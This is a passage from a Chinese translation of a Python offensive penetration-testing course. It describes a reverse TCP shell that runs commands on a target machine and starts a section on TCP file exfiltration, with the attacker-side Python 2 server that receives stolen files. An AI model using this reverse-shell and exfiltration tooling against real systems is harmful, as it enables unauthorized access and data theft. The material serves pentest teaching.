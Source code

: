 让我们尝试`arp -a`。现在我们获取目标机器上的 ARP 表：

![](img/00018.jpeg)

如前面的截图所示，输入错误命令时，子进程的`stderr`返回错误的语法，而不是使脚本崩溃。

为了快速回顾我们到目前为止所做的工作，我们已经建立了一个反向 TCP 隧道，并通过原始输入获取了用户输入。当我们输入`arp -a`时，原始输入将获取该命令，然后我们将其发送到目标机器。一旦在目标端接收到命令，我们将启动`cmd`作为子进程，发送错误或结果并在目标端打印出来。

如果连续按几次*Enter*键，shell 将崩溃。

# 数据外泄 – TCP

在上一节中，我们已经学习了如何导航目标目录。现在我们将看到如何抓取这些文件。在从目标机器抓取任何数据之前，请确保交战规则明确允许这样做。

# 服务器端

那么，让我们从更新后的服务器端脚本开始：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# TCP Data Exfiltration Server

import socket 
import os # Needed for file operation

# In the transfer function, we first create a trivial file called "test.png" as a file holder just to hold the 
# received bytes , then we go into infinite loop and store the received data into our file holder "test.png", however
# If the requested file doesn't exist or if we reached the end of the file then we will break the loop
# note that we could know the end of the file, if we received the "DONE" tag from the target side

# Keep in mind that you can enhance the code and dynamically change the test.png to other file extension based on the user input

def transfer(conn,command):

    conn.send(command)
    f = open('/root/Desktop/test.png','wb')
    while True: 
        bits = conn.recv(1024)
        if 'Unable to find out the file' in bits:
            print '[-] Unable to find out the file'
            break
        if bits.endswith('DONE'):
            print '[+] Transfer completed '
            f.close()
            break
        f.write(bits)
```